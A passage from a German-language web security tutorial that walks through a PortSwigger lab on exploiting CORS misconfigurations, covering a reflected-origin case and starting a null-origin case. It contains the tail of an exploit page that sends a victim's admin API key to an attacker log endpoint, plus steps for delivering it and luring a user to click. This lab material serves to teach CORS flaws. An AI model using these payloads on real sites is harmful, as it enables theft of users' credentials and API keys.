 ```javascript
			  
			function retrieveKeys() {  
			location='/log?key='+this.responseText;  
			};  
		  
		</script>  
	<body>  
</html>
```

Sobald der Benutzer Ihre gehostete Seite besucht, sendet er automatisch eine [[CORS-Anfrage]], um Informationen über den Benutzer von dem im Skript angegebenen Ort abzurufen. Für diesen Schritt ist es wichtig, die Anwendungsstruktur und den Speicherort sensibler Informationen zu verstehen.  
  
Das obige Skript beginnt mit der Initialisierung des XMLHttpRequest (XHR)-Objekts, um den Webbrowser anzuweisen, dass wir Daten mithilfe des [[HTTP-Protokolle]] von und zu einem Webserver übertragen. XHR ist eine Browser-[[API]], die es clientseitigen Skriptsprachen wie JavaScript ermöglicht, [[HTTP-Anfragen]] an einen Server zu stellen und deren Antworten dynamisch zu empfangen, ohne dass der Benutzer die Seite aktualisieren muss.  
  
Anschließend weisen wir das Objekt an, eine Funktion namens „retrieKeys“ auszuführen, die den [[Admin-API-Schlüssel]] abruft und die Antwort beim Laden an uns sendet.  
  
Als Nächstes stellen wir eine GET-Anfrage, in der wir den Speicherort angeben, von dem wir Informationen abrufen möchten, und übergeben unsere Anmeldeinformationen, wobei die Funktion „Credentials“ auf „true“ gesetzt ist.  
  
Die Anfrage wird automatisch blockiert und abgelehnt, wenn der Anwendungsserver die Weitergabe von Anmeldeinformationen zwischen Domänen nicht zulässt. Wir wissen jedoch, dass dies hier nicht passieren wird, da die access-Control-Allow-Credentials auf true gesetzt sind.  
  
Um zu demonstrieren, wie das Skript funktioniert, verwende ich den Exploit-Server, den PortSwigger im Labor zur Verfügung stellt, um das obige Skript zu hosten.  
  
Melden Sie sich bei der Anwendung an, klicken Sie auf „Zum Exploit-Server gehen“ und fügen Sie das Skript in den Text ein. Klicken Sie dann auf „Exploit an Opfer liefern“. In einem realen Szenario müssen Sie den Link an den Benutzer senden und versuchen, ihn zum Klicken zu verleiten.

Nachdem Sie den Exploit bereitgestellt haben, klicken Sie auf „Zugriffsprotokoll“. Wir sollten den [[API-Schlüssel]] des erfassten Administrators in den Protokollen sehen können. Kopieren Sie die Zeichenfolge mit dem Schlüssel, fügen Sie sie in Burp Suite Decoder ein und dekodieren Sie sie als [[URL (Uniform Resource Locator)]], um den Klartextwert abzurufen.

### 2. Null Origin
Die Anwendung gilt als anfällig, wenn sie Access-Control-Allow-Origin auf den Nullwert setzt und die Weitergabe von Anmeldeinformationen ermöglicht, während Access-Control-Allow-Credentials auf „true“ gesetzt ist.

```http
Access-Control-Allow-Origin: null  
Access-Control-Allow-Credentials: true
```

Die Ausnutzung erfordert, dass wir die JS-Skriptdatei hosten, damit sie für den Zielbenutzer zugänglich ist (wie in Fall Nr. 1). Auch hier werden wir dasselbe Skript verwenden; Dieses Mal werden wir eine Iframe-Sandbox hinzufügen, um den [[API-Schlüssel]] abzurufen. Die Sandbox-Eigenschaft setzt den Ursprung des Frames auf Null, sodass wir den Origin-Header auf den Nullwert setzen können.
